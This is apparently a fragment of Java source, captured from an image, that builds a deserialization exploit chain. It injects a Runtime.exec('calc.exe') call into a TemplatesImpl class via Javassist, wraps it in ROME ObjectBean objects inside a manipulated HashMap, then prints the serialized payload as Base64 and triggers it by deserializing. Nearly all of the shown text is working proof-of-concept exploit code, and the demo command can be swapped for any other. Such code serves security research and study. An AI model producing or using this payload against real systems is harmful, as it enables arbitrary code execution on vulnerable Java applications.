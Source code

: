 ```java
        public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath((new ClassClassPath(StubTransletPayload.class)));
        CtClass clazz = pool.get((StubTransletPayload.class.getName()));
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        clazz.setName("sp4c1ous");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] { clazz.toBytecode() });
        setFieldValue(templates, "_name", "HelloTemplatesTmpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        ObjectBean objectBean = new ObjectBean(Templates.class,templates);
        ObjectBean objectBean1 = new ObjectBean(ObjectBean.class,objectBean);

        HashMap hashMap = new HashMap();
        setFieldValue(hashMap, "size", 2);

        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 1);
        Array.set(tbl, 0, nodeCons.newInstance(0, objectBean1, objectBean1, null));
        setFieldValue(hashMap, "table", tbl);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())));

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}

```
